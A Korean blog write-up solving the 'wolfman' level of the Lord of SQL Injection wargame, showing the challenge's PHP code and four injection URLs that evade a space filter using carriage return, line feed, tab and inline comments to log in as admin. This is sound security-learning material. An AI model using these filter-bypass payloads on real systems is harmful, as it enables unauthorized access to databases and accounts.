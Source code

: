 ```yaml
---
title: Lord of SQL Injection Write Up No.5 Wolfman
date: 2019-08-16 14:19:32
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 5번 wolfman 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

공백문자(' ')를 사용하지 않고 원하는 문자열을 `SELECT` 하도록 SQL을 조작할 수 있는지 확인한다.

### 소스 코드 분석

wolfman 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("wolfman");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");
```

- GET 방식으로 `pw`를 받고, `pw`에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.
- 또한, `pw`에 `공백문자(' ')` 가 들어 있으면 `No whitespace ~_~`가 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("wolfman");
```

- 받은 `pw`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `id`에 `"admin"`이라는 값이 들어있음'이다.

## Solution

1. CR(Carriage Return) 이용

   ASCII Code 표를 살펴보면 16진수로 `0x0D`는 `Carriage Return`에 해당한다.
   이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

   ```url
   http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw='%0Dor%0Did='admin'--%0D-
   ```

   ```sql
   select id from prob_wolfman where id='guest' and pw='' or id='admin'-- -'
   ```

   이는 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.

2. LF(Line Feed)

   ASCII Code 표를 살펴보면 16진수로 `0x0A`는 `Line Feed`에 해당한다.
   이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

   ```url
   http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw='%0Aor%0Aid='admin'%23
   ```

   ```sql
   select id from prob_wolfman where id='guest' and pw='' or id='admin'#'
   ```

   주석으로 `#`을 쓴 이유는 `-- -`을 사용할 때 가운데 공백으로 %0A를 사용하면 정상적으로 작동하지 않기 때문이다.

   이는 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.

3. Tab

   ASCII Code 표를 살펴보면 16진수로 `0x09`는 `Tab`에 해당한다.
   이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

   ```url
   http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw='%09or%09id='admin'--%09-
   ```

   ```sql
   select id from prob_wolfman where id='guest' and pw=''	or	id='admin'--	-'
   ```

   이는 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.

4. 주석

   MySQL에서 구문 사이에 주석을 넣으면 공백이 없어도 정상적으로 동작한다.

   ```url
   http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw='/**/or/**/id='admin'%23
   ```

   ```sql
   select id from prob_wolfman where id='guest' and pw=''/**/or/**/id='admin'#'
   ```

   주석으로 `#`을 쓴 이유는 `-- -`을 사용할 때 가운데 공백으로 주석을 사용하면 정상적으로 작동하지 않기 때문이다.

   이는 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.
